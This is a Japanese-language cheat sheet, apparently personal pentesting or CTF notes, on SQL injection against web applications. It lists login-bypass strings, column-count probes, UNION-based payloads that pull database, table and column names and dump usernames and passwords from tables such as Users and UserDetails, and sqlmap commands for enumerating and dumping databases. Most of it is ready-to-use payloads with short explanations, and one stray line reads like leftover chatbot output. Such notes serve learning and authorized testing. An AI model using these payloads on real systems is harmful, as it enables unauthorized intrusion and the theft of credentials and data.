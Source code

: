 
# 目次
1. [Basic](#basic)
- [有効性のチェック](#有効性のチェック)
2. [カラム数の特定](#カラム数の特定)
3. [Union Based SQLインジェクション](#union-based-sqlインジェクション)
4. [SQLmapの使用例](#sqlmapの使用例)

---

# Basic

## 有効性のチェック
- `' or '1'='1';--`を入力し、通常の入力時と挙動の違いがあるかを**BurpSuite**などのツールを使って確認します。

### 例として使用可能なSQLインジェクション入力
- `admin' or '1'='1`
- `'or '1'='1 --`
- `"or "1"="1`
- `"or "1"="1" --`
- `") or "1"="1 --`
- `"or 1=1 --`
---
# カラム数の特定
1. SQLインジェクションの脆弱性が発見されたら、生成されるクエリを予想する
- Example
```bash
select id, name, position, phone, email from table where name="{input}"
```

2. 数を変えながら繰り返し、エラーにならない数を探す。

- Example
- `' union select null;--`を入力し、カラム数に関するエラーが出た場合は、以下のように徐々にカラム数を増やして特定します。
  
```bash
' union select null, null, null, null, null;--
```
```bash
' or 1=1 order by 10 #
```
```bash
' or 1=1 order by 9 #
```
```bash
' or 1=1 order by 8 #
```
3. 特定できたらUnion Based SQLインジェクションにつなげる。
---
# Union Based SQLインジェクション

**Union Based SQL Injection**とは、`union`を使って行を挿入し、内部情報を抽出する手法です。

## Unionの具体例と説明

1. **現在のユーザー、データベース、バージョン情報の取得**
   ```bash
   ' or 1=1 union select 1,2,3,user(),database(),version();#
   ```
   - 目的: データベースサーバーにログインしているユーザー名、現在使用しているデータベース名、およびサーバーのバージョン情報を取得します。

2. **データベースの一覧を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(schema_name),5,6 from information_schema.schemata;#
   ```
   - 目的: データベースサーバーに存在するすべてのデータベース名を取得します。`information_schema.schemata`は、データベース名を保持するテーブルです。

3. **特定のテーブルのカラム名を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='Users';#
   ```
   - 目的: `Users`という名前のテーブルに含まれるカラム（列）の名前を取得します。`information_schema.columns`は、すべてのテーブルのカラム情報を保持するテーブルです。

4. **特定のテーブルからユーザーID、ユーザー名、パスワードを抽出**
   ```bash
   ' or 1=1 union select 1,2,group_concat(UserID),group_concat(Username),group_concat(Password),6 from Users;#
   ```
   - 目的: `Users`テーブルからユーザーID、ユーザー名、およびパスワード情報をまとめて取得します。複数のデータを`group_concat`関数で連結しています。

5. **特定のデータベースのテーブル名を取得**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema='users';#
   ```
   - 目的: `users`データベースに含まれるすべてのテーブル名を取得します。`information_schema.tables`は、すべてのデータベース内のテーブル情報を保持するテーブルです。

6. **特定のテーブルのカラム名を取得（具体例: UserDetailsテーブル）**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='UserDetails';#
   ```
   - 目的: `UserDetails`という名前のテーブルに含まれるカラム（列）の名前を取得します。この例では、`id`, `firstname`, `lastname`, `username`, `password`, `reg_date`といったカラムが含まれます。

7. **ユーザー名とパスワードの取得（具体例: UserDetailsテーブル）**
   ```bash
   ' or 1=1 union select 1,2,3,group_concat(username),group_concat(password),6 from users.UserDetails;#
   ```
   - 目的: `UserDetails`テーブルからすべてのユーザー名とパスワードを取得します。`group_concat`関数を使用して、複数のユーザー情報をまとめて抽出しています。

---

これで、各行の目的や意味がより明確になりました。内容に不明な点があればお知らせください。

# SQLmapの使用例

**SQLmap**は、SQLインジェクションの検出や悪用に特化したツールです。以下はその基本的な使用例です。

1. **目標のURLを特定する**  
   SQLmapで検査対象のウェブサイトやアプリケーションのURLを指定します。
   
2. **検査の開始**  
   SQLmapで対象のURLに対してSQLインジェクション攻撃を実行します。
   
   ```bash
   sqlmap -u <target_URL>
   ```
   例: `sqlmap -u http://example.com/page.php?id=1`

3. **自動検出**  
   SQLmapは自動で脆弱性を検出します。検出結果は詳細に表示されます。

4. **脆弱性の調査と悪用**  
   SQLmapでデータベースの情報を抽出したり、脆弱性を利用して攻撃を実行できます。

   - データベースの名前を取得:
     ```bash
     sqlmap -u <target_URL> --dbs
     ```

   - テーブルを列挙:
     ```bash
     sqlmap -u <target_URL> -D <database_name> --tables
     ```

   - テーブルのデータを取得:
     ```bash
     sqlmap -u <target_URL> -D <database_name> -T <table_name> --dump
     ```

---

# 参考リンク
- [SQLmapの公式ドキュメント](https://shukapin.com/security/sqlmap)
- [HackTricks SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

---

# SQLmapのオプション

| オプション  | 説明                           | 例                              |
|-------------|--------------------------------|---------------------------------|
| `-u`        | URL指定                        | `sqlmap -u http://10.10.10.1/`  |
| `--batch`   | インタラクティブモードを無効化  | `sqlmap -u URL --batch`         |
| `--dbs`     | 利用可能なデータベース名の取得  | `sqlmap -u URL --dbs`           |
| `--all`     | すべての情報を取得              | `sqlmap -u URL --all`           |

---

